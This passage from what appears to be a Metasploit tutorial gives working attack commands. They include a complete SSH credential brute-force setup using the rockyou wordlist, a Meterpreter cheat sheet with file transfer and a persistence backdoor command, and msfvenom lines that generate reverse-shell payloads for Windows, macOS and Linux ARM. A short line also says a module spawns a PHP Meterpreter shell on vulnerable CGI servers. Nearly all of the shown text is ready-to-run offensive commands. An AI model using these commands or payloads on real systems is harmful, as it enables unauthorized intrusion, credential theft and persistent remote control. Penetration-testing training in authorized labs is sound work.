 The module spawns a PHP Meterpreter shell on any vulnerable CGI server.

### 5.4 SSH Credential Brute‑Force (Auxiliary)  

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.56.101
set USER_FILE /usr/share/wordlists/rockyou.txt   # any text file, one user per line
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 10
set STOP_ON_SUCCESS true
run
```

Successful credentials appear in the console and a **shell** session is automatically opened.

### 5.5 Meterpreter Cheat‑Sheet  

| Action | Command inside Meterpreter |
|--------|---------------------------|
| List sessions | `sessions -l` |
| Switch to a specific session | `sessions -i 2` |
| System info | `sysinfo` |
| Current user | `getuid` |
| Upload a file | `upload /local/file /remote/path/` |
| Download a file | `download /remote/file /local/path/` |
| Open a regular shell | `shell` |
| Persist a backdoor (Windows) | `run persistence -h` (shows options) |
| Exit the session | `exit` |
| Background to msfconsole | `background` |

---

## 6️⃣ Advanced Techniques  

### 6.1 Generating Custom Payloads with **msfvenom**  

```bash
# Windows x64 EXE
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=4444 -f exe -o ~/Desktop/win_rev.exe

# macOS ARM64 Mach‑O (native for Apple Silicon)
msfvenom -p osx/arm64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=4455 -f macho -o ~/Desktop/mac_rev.macho

# Linux ARM (e.g., Raspberry Pi)
msfvenom -p linux/armle/meterpreter/reverse_tcp LHOST=$LHOST LPORT=4466 -f elf -o /tmp/arm_rev.elf
```
